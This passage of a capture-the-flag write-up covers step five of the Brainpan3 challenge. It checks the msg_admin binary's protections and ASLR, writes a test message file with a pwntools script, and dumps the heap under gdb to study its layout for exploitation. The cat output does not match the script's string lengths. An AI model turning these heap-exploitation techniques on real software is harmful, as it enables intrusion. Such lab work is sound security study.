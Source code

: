 ## Step 5

```
ctf@ctf-barberpole:~/ctfs/brainpan3/files$ checksec msg_admin 
[*] '/home/ctf/ctfs/brainpan3/files/msg_admin'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
```

ASLR is on:
```
$ cat /proc/sys/kernel/randomize_va_space
2
```

```python
# make-pwnmsg.py
from pwn import *

with open('pwn.msg', 'w') as f:
    f.write('{}|{}\n'.format('a'*4, 'A'*10))
    f.write('{}|{}\n'.format('b'*4, 'B'*10))
    f.write('{}|{}\n'.format('b'*4, 'C'*10))

```

```
ctf@ctf-barberpole:~/ctfs/brainpan3/files$ cat pwn.msg
aaaa|AAAAAAAAAAAA
bbbb|BBBBBBBBBBBB
bbbb|CCCCCCCCCCCC
```

```
gdb ./msg_admin
r 1 pwn.msg
```


```
# hexdump 0x804c390 120

+0000 0x804c390  a8 c3 04 08  11 00 00 00  61 61 61 61  00 00 00 00  |....|....|aaaa|....|
+0010 0x804c3a0  00 00 00 00  d1 00 00 00  41 41 41 41  41 41 41 41  |....|....|AAAA|AAAA|
+0020 0x804c3b0  41 41 00 00  00 00 00 00  00 00 00 00  00 00 00 00  |AA..|....|....|....|
+0030 0x804c3c0  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  |....|....|....|....|
*
+00e0 0x804c470  00 00 00 00  11 00 00 00  01 00 00 00  88 c4 04 08  |....|....|....|....|
+00f0 0x804c480  98 c4 04 08  11 00 00 00  62 62 62 62  00 00 00 00  |....|....|bbbb|....|
+0100 0x804c490  00 00 00 00  d1 00 00 00  42 42 42 42  42 42 42 42  |....|....|BBBB|BBBB|
+0110 0x804c4a0  42 42 00 00  00 00 00 00  00 00 00 00  00 00 00 00  |BB..|....|....|....|
```
